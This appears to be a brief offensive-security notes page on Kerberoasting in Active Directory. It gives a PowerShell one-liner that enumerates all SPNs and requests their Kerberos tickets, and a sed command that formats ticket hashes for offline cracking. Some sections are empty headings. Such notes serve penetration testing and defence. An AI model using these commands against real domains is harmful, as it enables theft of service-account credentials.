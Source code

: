 ```yaml
---
description: Snagging Domain Accounts using SPN's
---
```


# Kerberoast

The kerberoast vulnerability assumes that the attacker has some foothold on the domain and has a low privileged domain account.

## Service Principal Names

> A service principal name \(SPN\) is a unique identifier of a service instance. SPNs are used by [Kerberos authentication](https://msdn.microsoft.com/en-us/library/ms677600%28v=vs.85%29.aspx) to associate a service instance with a service logon account. This allows a client application to request that the service authenticate an account even if the client does not have the account name.

### Listing SPN's

### Fetching Tickets

#### Full SPN Scan

```text
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 
```

#### Get-SPN

[https://github.com/nullbind/Powershellery/tree/master/Stable-ish/Get-SPN](https://github.com/nullbind/Powershellery/tree/master/Stable-ish/Get-SPN)

### Exporting Tickets

## Cracking SPN Hashes

```bash
cat kirbi2johnoutput.txt | sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/'
```

## References

[Tim Medin - Kicking The Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin%281%29.pdf) \([Video](https://www.youtube.com/watch?v=PUyhlN-E5MU&feature=youtu.be)\)





